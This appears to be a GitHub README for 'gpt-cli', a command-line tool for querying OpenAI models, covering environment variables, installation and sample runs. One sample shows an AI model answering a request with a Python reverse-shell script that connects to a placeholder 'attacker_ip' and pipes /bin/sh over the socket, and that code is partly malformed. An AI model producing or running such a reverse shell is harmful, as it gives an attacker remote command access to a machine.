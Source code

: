 # gpt-cli

This is a command line tool used for interacting with OpenAI's API.

Default model is `gpt-3.5-turbo` (but you can change it to whatever you want).

This tool requires the following environment variables to be set:

- `OPENAI_API_KEY`

You can further tweak functionality by setting the following additional environment variables:

- `OPENAI_MODEL`
- `OPENAI_DEFAULT_PROMPT`
- `OPENAI_LOGFILE`
- `OPENAI_TEMPERATURE`
- `OPENAI_MAX_TOKENS`

All environment variables can be set by filling in values from `example.env`, renaming that file to `.env`, and running `./bin/gpt3 'Your prompt here'`.

There is also a `gpt4` command in case you set your model to GPT-4 and feel stupid running the `gpt3` command.

Alternately, you can pass the environment variables  on the command line using something like this:

```
OPENAI_API_KEY=foo ./bin/gpt3 'Your prompt here'
```

If installing from PyPi, set the `OPENAI_API_KEY` in your `~/.bashrc` or `~/.zshrc`, and run as follows:

```
gpt3 'Your prompt here'
```

## Installation (PyPi) - set variables in rc files:

`python3 -m pip install gpt-cli`

## Installation (local) - set variables in .env:

```
git clone https://github.com/phx/gpt-cli
cd gpt-cli
python3 -m pip install -r requirements.txt
```

### Examples:

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  gpt3 'Write python script to create reverse shell.'
Prompt:
Write python script to create reverse shell.

Answer:
import socket
import subprocess# Create a socket
s = socket.socket()# Connect to the attacker machine
s.connect(("attacker_ip", attacker_port))# Create a subprocess to execute a shell
proc = subprocess.Popen(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno())# Keep the connection alive
while True:
    data = s.recv(1024)
    if data == "exit":
        break
    proc.stdin.write(data)
    proc.stdout.flush()# Close the connection
s.close()
----------------------------------------------------------------------
```

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 'Who is Gregory Washingheimer Van Fleet?'
Prompt:
Who is Gregory Washingheimer Van Fleet?

Answer:
Unknown.
----------------------------------------------------------------------
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 'Who is John Adams?'                     
Prompt:
Who is John Adams?

Answer:
John Adams was the second President of the United States, serving from 1797 to 1801.
----------------------------------------------------------------------
```



